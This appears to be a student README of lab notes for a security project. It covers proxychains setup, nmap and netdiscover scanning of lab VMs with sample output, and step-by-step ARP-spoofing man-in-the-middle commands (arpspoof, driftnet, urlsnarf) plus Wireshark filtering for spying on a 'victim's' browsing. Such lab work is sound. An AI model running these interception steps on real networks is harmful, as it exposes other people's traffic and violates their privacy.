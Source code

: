 ## Repo for scripts and notes for ADT project

1. Proxy chaining

    
  ```
  sudo apt-get install proxychains
  ```
 
  - copy `proxychains.conf` into `/etc/proxychains.conf`

  - when running `nmap` use proxy chaining as follows:
    
  ```
  sudo proxychains nmap -sT SOME_IP_ADDRESS
  ```

2. Port scanning
  
  1. Make sure if using 2 VM machines they are connected to Internet using
     Bridge (Automatic) option
  2. At first run `sudo netdiscover` to find all IP address
    ![](netdiscover_result.png)

  3. For all IP address run `./detect_os.sh netdiscover_results.txt out.txt` to detect OS
  ```
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Nov  1 14:41:26 2020 -- 1 IP address (1 host up) scanned in 40.54 seconds
    # Nmap 7.80 scan initiated Sun Nov  1 14:41:26 2020 as: nmap -T4 -A -v --append-output -oN out.txt 192.168.0.21
    Nmap scan report for 192.168.0.21
    Host is up (0.00057s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE  VERSION
    5555/tcp open  freeciv?
    | fingerprint-strings: 
    |   adbConnect: 
    |     CNXN
    |_    device::ro.product.name=android_x86;ro.product.model=VMware Virtual Platform;ro.product.device=x86;features=stat_v2,cmd,shell_v2
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port5555-TCP:V=7.80%I=7%D=11/1%Time=5F9EBB17%P=x86_64-pc-linux-gnu%r(ad
    SF:bConnect,98,"CNXN\x01\0\0\x01\0\x10\0\0\x80\0\0\0\xfc/\0\0\xbc\xb1\xa7\
    SF:xb1device::ro\.product\.name=android_x86;ro\.product\.model=VMware\x20V
    SF:irtual\x20Platform;ro\.product\.device=x86;features=stat_v2,cmd,shell_v
    SF:2");
  ```

3. Man in the Middle attack
  - Enable packet forwarding `sysctl -w net.ipv4.ip_forward=1` and `sysctl -w net.ipv6.conf.all.forwarding=1`
  - Intercept packages from victim: `arpspoof -i [Network Interface Name] -t [Target IP] [Router IP]`
    to check [Network Interface Name] and [Router IP] run `ip route show`, the final command should be similar to `arpspoof -i eth0 -t 192.168.0.17 192.168.0.1`
  - Intercept package from router: `arpspoof -i [Network Interface Name] -t [Router IP] [Target IP]`
  - Sniff images from victim navigation: `driftnet -i [Network Interface Name]`
  - Sniff URLs information from victim navifation: `urlsnarf -i [Network
    Interface Name]`
  - Finally disable packet forwarding: `sysctl -w net.ipv4.ip_forward=0` and `sysctl -w net.ipv6.conf.all.forwarding=0`
 

4. Wireshark
  - Let's say we want to know what our victim is doing on specific page (and we know IP of that server). We can filter our results by _source_ and destination_: 

    ![](images/wireshark_example.png)
